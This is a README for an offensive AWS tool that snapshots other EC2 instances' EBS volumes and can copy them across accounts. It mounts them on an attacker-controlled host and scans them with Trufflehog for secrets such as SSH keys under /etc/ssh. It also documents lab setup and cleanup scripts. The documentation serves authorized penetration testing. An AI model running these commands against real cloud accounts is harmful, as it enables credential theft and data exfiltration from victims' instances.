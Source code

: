 # EBS Pillaging 

This is an EC2 EBS post-exploitation script. The end goal is to make your life a lot easier if you get admin in EC2 while on an AWS pen test and are interested in pillaging other instances' EBS volumes. It automates the process of creating snapshots of EBS volumes, transferring them between AWS accounts if necessary, mounting them on the attacker-controlled EC2 instance, and running Trufflehog on the EBS volume's mounted snapshot. 

## Features
- **Snapshot Creation**: Create snapshots of the root EBS volume of an EC2 instance.
- **Cross-Account Snapshot Transfer**: Optionally transfer the snapshot to a different AWS account.
- **Volume Creation**: Create a new volume from the snapshot and attach it to a target EC2 instance.
- **Volume Mounting**: Mount the created volume to a specified EC2 instance for inspection.
- **Trufflehog Scanning**: Run Trufflehog on the mounted volume to search for secrets.

## Requirements
- Python 3.x
- `boto3` library
- AWS CLI configured with necessary profiles

## Usage
### Same Account Abuse
This scenario involves creating a snapshot and mounting the volume within the same AWS account.
```
python3 ebspillage.py --src-profile $dst_profile --dst-profile $dst_profile --src-region us-east-1 --dst-region us-east-1 --mount-path /root/blah --pillage --ssh-key-path ~/.ssh/id_rsa --target-ec2 i-09639c1f8c7408b0d --mount-host i-06549773ee1b5a056 --pillage-path /etc/ssh --out-file ./trufflehog.out --json
```

### Cross-Account Abuse Without Snapshot Transfer
In this scenario, the snapshot is created in one AWS account but is not transferred to the destination account. The volume is created and mounted within the source account.
```
python3 ebspillage.py --src-profile $src_profile --dst-profile $dst_profile --src-region us-east-1 --dst-region us-east-1 --mount-path /root/blah --pillage --ssh-key-path ~/.ssh/id_rsa --target-ec2 i-062fb4910e81569b1 --mount-host i-06549773ee1b5a056 --pillage-path /etc/ssh --out-file ./trufflehog.out --json
```

### Cross-Account Abuse with Snapshot Transfer
This scenario involves creating a snapshot in one AWS account, transferring it to another account, and then creating and mounting the volume in the destination account.

```
python3 ebspillage.py --src-profile $src_profile --dst-profile $dst_profile --src-region us-east-1 --dst-region us-east-1 --mount-path /root/blah --pillage --ssh-key-path ~/.ssh/id_rsa --target-ec2 i-062fb4910e81569b1 --mount-host i-06549773ee1b5a056 --pillage-path /etc/ssh --out-file ./trufflehog.out --json --transfer
```

## Arguments
- `--src-profile`: The AWS CLI profile name for the source account.
- `--dst-profile`: The AWS CLI profile name for the destination account.
- `--src-region`: The AWS region for the source account.
- `--dst-region`: The AWS region for the destination account.
- `--mount-path`: The path on the target instance where the volume will be mounted.
- `--pillage`: Flag to enable the process of creating a snapshot, creating a volume, mounting it, and running Trufflehog.
- `--ssh-key-path`: The path to the SSH key file used for connecting to the instance.
- `--target-ec2`: The EC2 instance ID for which the snapshot will be created.
- `--mount-host`: The EC2 instance ID where the volume will be mounted.
- `--pillage-path`: The path within the mounted volume where Trufflehog will be run.
- `--out-file`: The path where the Trufflehog output will be saved.
- `--json`: Flag to enable JSON output format for Trufflehog.
- `--transfer`: Flag to transfer the snapshot from the source account to the destination account.
- `--retain`: Retain the snapshot and volume after processing, instead of deleting them.

# AWS EC2 Helper Scripts

This repository contains two helper scripts, `create_ec2.sh` and `delete_all.sh`, designed to manage EC2 instances and related resources on AWS. These scripts simplify the process of creating and cleaning up EC2 instances, volumes, and snapshots.

## Scripts Overview

### `create_ec2.sh`

This script automates the creation of an EC2 instance in a specified AWS region. The script is designed to apply a specific tag (`TrufflehogTesting`) to both the EC2 instance and its associated EBS volume.

#### Usage

`bash create_ec2.sh --profile PROFILE_NAME --region REGION --instance-profile INSTANCE_PROFILE --ip-allowlist IP_ADDRESS --key KEY_NAME --image-id IMAGE_ID --instance-type INSTANCE_TYPE`

#### Parameters

- `--profile`: The AWS CLI profile to use for authentication 
- `--region`: The AWS region where the instance will be created (e.g., `us-east-1`).
- `--instance-profile`: The IAM instance profile to attach to the instance (e.g., `SMInstanceProfile`).
- `--ip-allowlist`: The IP address (or range) to allow SSH access (e.g., `1.2.3.4/32`). You can use `curl -s ifconfig.me` to automatically use your current public IP.
- `--key`: The name of the SSH key pair to associate with the instance 
- `--image-id`: The ID of the Amazon Machine Image (AMI) to use for the instance 
- `--instance-type`: The type of instance to create (e.g., `t3.micro`).

#### Example

`bash create_ec2.sh --profile YOUR_PROFILE --region us-east-1 --instance-profile SSMInstanceProfile --ip-allowlist `curl -s ifconfig.me`/32 --key YOUR_KEY --image-id YOUR_AMI_ID --instance-type t3.micro`

This command will create an EC2 instance with the tag `TrufflehogTesting` applied to both the instance and its associated EBS volume.

### `delete_all.sh`

This script automates the deletion of all EC2 instances, EBS volumes, and snapshots that have been tagged with `TrufflehogTesting`. It provides an easy way to clean up resources after testing.

#### Usage

`bash delete_all.sh --profile PROFILE_NAME --region REGION`

#### Parameters

- `--profile`: The AWS CLI profile to use for authentication  
- `--region`: The AWS region where the resources are located  

#### Example

`bash delete_all.sh --profile YOUR_PROFILE --region us-east-1`

This command will delete all EC2 instances, EBS volumes, and snapshots in the specified region that have been tagged with `TrufflehogTesting`.

### Script Details

- `create_ec2.sh`: 
  - Automatically tags EC2 instances and associated EBS volumes with `TrufflehogTesting`.
  - Configures security group rules to allow SSH access from a specified IP address.
  - Starts the instance and waits for it to be in the `running` state before outputting the public IP.

- `delete_all.sh`: 
  - Finds and deletes all EC2 instances tagged with `TrufflehogTesting`.
  - Finds and deletes all EBS volumes and snapshots tagged with `TrufflehogTesting`.
  - Ensures that resources are cleaned up thoroughly to avoid unnecessary charges.

### Requirements

- **AWS CLI**: The scripts require the AWS CLI to be installed and configured with appropriate credentials.
- **JQ**: The `jq` command-line tool is used to parse JSON output from the AWS CLI.

## To Do

- [ ] Run tests with encrypted EBS volumes with various roles / AuthZ levels 
- [ ] Add functionality to work with specific KMS keys for decrypting volumes if encrypted 

## License
This project is licensed under the MIT License.
